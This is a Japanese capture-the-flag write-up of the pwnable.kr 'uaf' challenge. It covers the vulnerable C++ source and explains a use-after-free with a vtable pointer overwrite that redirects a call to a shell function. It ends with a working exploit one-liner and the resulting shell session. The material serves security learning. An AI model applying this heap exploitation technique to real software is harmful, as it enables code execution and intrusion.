





# 内容
まず、ログインしてみる。

```bash
sh uaf@pwnable.kr -p2222
uaf@pwnable.kr's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Wed Jul 31 13:47:11 2019 from 94.25.171.14
uaf@prowl:~$ ls
flag  uaf  uaf.cpp
uaf@prowl:~$ ./uaf
1. use
2. after
3. free
1
My name is Jack
I am 25 years old
I am a nice guy!
My name is Jill
I am 21 years old
I am a cute girl!
1. use
2. after
3. free
1
My name is Jack
I am 25 years old
I am a nice guy!
My name is Jill
I am 21 years old
I am a cute girl!
1. use
2. after
3. free
2
Segmentation fault (core dumped)
uaf@prowl:~$ ./uaf
1. use
2. after
3. free
3
1. use
2. after
3. free
3
1. use
2. after
3. free
1
Segmentation fault (core dumped)
uaf@prowl:~$ cat .
./               ../              .bash_history/   .irssi/          .pwntools-cache/
uaf@prowl:~$ cat .
./               ../              .bash_history/   .irssi/          .pwntools-cache/
uaf@prowl:~$ ls
flag  uaf  uaf.cpp
uaf@prowl:~$ cat uaf.cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }

        return 0;
}
uaf@prowl:~$
```

この問題は、ヒープ領域の脆弱性をついたUse After Freeを用いるもの。

# Use After Free
ITmediaに簡単な内容が書いてあった。

> ヒープに対する攻撃とその対策  [https://www.atmarkit.co.jp/ait/articles/1408/28/news010.html](https://www.atmarkit.co.jp/ait/articles/1408/28/news010.html)
> Use After Freeとヒープスプレー [https://www.atmarkit.co.jp/ait/articles/1409/22/news010.html](https://www.atmarkit.co.jp/ait/articles/1409/22/news010.html)

要は動的に確保した変数を解放した後も使用するとエラー起きますよねって話だと思う。

これの悪いところは、コンパイラがエラーを出さないこと。
つまり、エラーかどうかなんて、実行してみないとわからない。
私もよく、mallocした後freeするの忘れたり、freeしたのにその変数やら関数やらを使おうとすることがある(本当に良くないけど・・・)。
そう思うと、ガベージコレクションはユーザーがメモリ管理をしない点、便利。

# 問題動作
上記でも説明したが、解放したクラス、つまりインスタンスのないクラスを使うなよってことで、
今回のプログラムだと、以下のようなときに問題が発生する。

1. case :3に飛んで、クラスを解放する
2. case :2に飛んで、date変数の領域を動的に確保する
3. case :1に飛んで、解放したクラスを実行する

# 手順
今回の問題では、m->intoroduce()→m->give_shell()になるようにする。
今回は関数を飛ばす際に仮想関数テーブル(vptr)を用いる。
仮想関数テーブルは、rodateセクションに存在する。

以下はidaで見たもの。



これを見るとわかるが、MAN::introduce()はHUMAN::give_shellの8バイト先にあることが分かる。
実際に、main関数で呼ばれているところを確認すると、swichでcase1にとんだ場所では8バイトのインクリメントをしている部分がある。
それが以下になる。



また、このサブルーチンでは、一番初めにヒープ領域のアドレスを取得していることが分かる。
つまり、この指し示すアドレス先がcase2で読み取った変数データであれば、書き換えることが可能となる。
図にまとめると以下のようになる。



以上をまとめて考えると、ヒープ領域で参照するアドレスはvptr-8だと、give_shellを使えそうなことがわかった。

# 解答
ファイルを作る。vptr-8のアドレスが記述されているアドレスを適当なファイルに記述して、実行する。
> man of vptr = 0x401570
> vptr - 0x8 = 0x401568

## 注意
* x64なので、書き込む際は８バイトで指定する。アドレスが８バイト刻みだから。
* ヒープ領域は後入れ先出しみたいな感じなので、case2は２回選ぶ必要がある。



* クラスを生成する際、ヒープ領域に24バイト確保しているので、データを読み込み時も24バイト確保する。なぜか８バイトの確保でも行けるようだが、理由はわからない・・・。
  * 以下main関数でクラスを動的確保している場所



```bash
f@prowl:~$ python -c 'print "\x68\x15\x40\x00" + "\x00" * 4' > /tmp/human11 && ./uaf 24 /tmp/human11
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ ls
flag  uaf  uaf.cpp
$ cat flag
```

フラグゲット
